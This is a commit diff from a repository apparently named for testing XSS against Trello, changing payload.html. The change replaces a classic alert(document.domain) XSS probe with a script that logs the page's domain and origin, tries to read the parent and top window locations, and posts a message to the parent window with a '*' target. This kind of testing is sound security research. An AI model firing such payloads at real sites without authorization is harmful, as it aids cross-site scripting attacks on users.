

Before and after one commit to jadghamloushh/trello-xss-test, a plain HTML site: page payload.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Implement domain logging and parent access tests
Added script to log domain and access tests.

```diff
--- a/payload.html
+++ b/payload.html
@@ -1 +1,31 @@
-<script>alert(document.domain)</script>
+<html>
+<body>
+<script>
+// Check what domain we're running in
+console.log("Modal domain:", document.domain);
+console.log("Modal origin:", window.origin);
+
+// Try to access parent
+try {
+    console.log("Parent location:", window.parent.location.href);
+} catch(e) {
+    console.log("Cannot access parent:", e.message);
+}
+
+// Try top
+try {
+    console.log("Top location:", top.location.href);
+} catch(e) {
+    console.log("Cannot access top:", e.message);
+}
+
+// Check if we can postMessage to parent
+window.parent.postMessage({test: 'xss'}, '*');
+
+// Display results visually
+document.body.innerHTML = '<h2>Modal loaded at: ' + document.domain + '</h2>' +
+    '<p>Origin: ' + window.origin + '</p>' +
+    '<p>Check console for access test results</p>';
+</script>
+</body>
+</html>
```
